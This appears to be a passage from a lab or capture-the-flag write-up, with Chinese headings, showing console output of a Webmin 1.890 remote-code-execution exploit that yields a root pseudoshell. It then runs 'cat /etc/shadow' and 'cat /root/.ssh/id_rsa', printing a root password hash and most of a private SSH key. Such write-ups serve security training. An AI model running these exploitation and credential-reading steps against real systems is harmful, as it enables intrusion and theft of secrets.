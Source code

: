 ```
           \_/\_/ \___|_.__/|_| |_| |_|_|_| |_| |_| \_\____|_____|                                                                                                                                                                          
                                                                                                                                                                                                                                            
                                                @MuirlandOracle                                                                                                                                                                             
                                                                                                                                                                                                                                            
                                                                                                                                                                                                                                            
[*] Server is running in SSL mode. Switching to HTTPS
[+] Connected to https://10.200.101.200:10000/ successfully.
[+] Server version (1.890) should be vulnerable!
[+] Benign Payload executed!

[+] The target is vulnerable and a pseudoshell has been obtained.
Type commands to have them executed on the target.                                                                                                                                                                                          
[*] Type 'exit' to exit.
[*] Type 'shell' to obtain a full reverse shell (UNIX only).

# id
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:initrc_t:s0

```

哈希
```
# cat /etc/shadow
root:$6$i9vT8tk3SoXXxK2P$HDIAwho9FOdd4QCecIJKwAwwh8Hwl.BdsbMOUAd3X/chSCvrmpfy.5lrLgnRVNq6/6g0PxK9VqSdy47/qKXad1::0:9
```

ssh 秘钥
```
# cat /root/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAs0oHYlnFUHTlbuhePTNoITku4OBH8OxzRN8O3tMrpHqNH3LHaQRE
LgAe9qk9dvQA7pJb9V6vfLc+Vm6XLC1JY9Ljou89Cd4AcTJ9OruYZXTDnX0hW1vO5Do1bS
jkDDIfoprO37/YkDKxPFqdIYW0UkzA60qzkMHy7n3kLhab7gkV65wHdIwI/v8+SKXlVeeg
0+L12BkcSYzVyVUfE6dYxx3BwJSu8PIzLO/XUXXsOGuRRno0dG3XSFdbyiehGQlRIGEMzx
hdhWQRry2HlMe7A5dmW/4ag8o+NOhBqygPlrxFKdQMg6rLf8yoraW4mbY7rA7/TiWBi6jR
fqFzgeL6W0hRAvvQzsPctAK+ZGyGYWXa4qR4VIEWnYnUHjAosPSLn+o8Q6qtNeZUMeVwzK
H9rjFG3tnjfZYvHO66dypaRAF4GfchQusibhJE+vlKnKNpZ3CtgQsdka6oOdu++c1M++Zj
z14DJom9/CWDpvnSjRRVTU1Q7w/1MniSHZMjczIrAAAFiMfOUcXHzlHFAAAAB3NzaC1yc2
EAAAGBALNKB2JZxVB05W7oXj0zaCE5LuDgR/Dsc0TfDt7TK6R6jR9yx2kERC4AHvapPXb0
AO6SW/Ver3y3PlZulywtSWPS46LvPQneAHEyfTq7mGV0w519IVtbzuQ6NW0o5AwyH6Kazt
+/2JAysTxanSGFtFJMwOtKs5DB8u595C4Wm+4JFeucB3SMCP7/Pkil5VXnoNPi9dgZHEmM
1clVHxOnWMcdwcCUrvDyMyzv11F17DhrkUZ6NHRt10hXW8onoRkJUSBhDM8YXYVkEa8th5
THuwOXZlv+GoPKPjToQasoD5a8RSnUDIOqy3/MqK2luJm2O6wO/04lgYuo0X6hc4Hi+ltI
UQL70M7D3LQCvmRshmFl2uKkeFSBFp2J1B4wKLD0i5/qPEOqrTXmVDHlcMyh/a4xRt7Z43
2WLxzuuncqWkQBeBn3IULrIm4SRPr5SpyjaWdwrYELHZGuqDnbvvnNTPvmY89eAyaJvfwl
g6b50o0UVU1NUO8P9TJ4kh2TI3MyKwAAAAMBAAEAAAGAcLPPcn617z6cXxyI6PXgtknI8y
lpb8RjLV7+bQnXvFwhTCyNt7Er3rLKxAldDuKRl2a/kb3EmKRj9lcshmOtZ6fQ2sKC3yoD
oyS23e3A/b3pnZ1kE5bhtkv0+7qhqBz2D/Q6qSJi0zpaeXMIpWL0GGwRNZdOy2dv+4V9o4
8o0/g4JFR/xz6kBQ+UKnzGbjrduXRJUF9wjbePSDFPCL7AquJEwnd0hRfrHYtjEd0L8eeE
egYl5S6LDvmDRM+mkCNvI499+evGwsgh641MlKkJwfV6/iOxBQnGyB9vhGVAKYXbIPjrbJ
r7Rg3UXvwQF1KYBcjaPh1o9fQoQlsNlcLLYTp1gJAzEXK5bC5jrMdrU85BY5UP+wEUYMbz
TNY0be3g7bzoorxjmeM5ujvLkq7IhmpZ9nVXYDSD29+t2JU565CrV4M69qvA9L6ktyta51
bA4Rr/l9f+dfnZMrKuOqpyrfXSSZwnKXz22PLBuXiTxvCRuZBbZAgmwqttph9lsKp5AAAA
wBMyQsq6e7CHlzMFIeeG254QptEXOAJ6igQ4deCgGzTfwhDSm9j7bYczVi1P1+BLH1pDCQ
viAX2kbC4VLQ9PNfiTX+L0vfzETRJbyREI649nuQr70u/9AedZMSuvXOReWlLcPSMR9Hn7
bA70kEokZcE9GvviEHL3Um6tMF9LflbjzNzgxxwXd5g1dil8DTBmWuSBuRTb8VPv14SbbW
```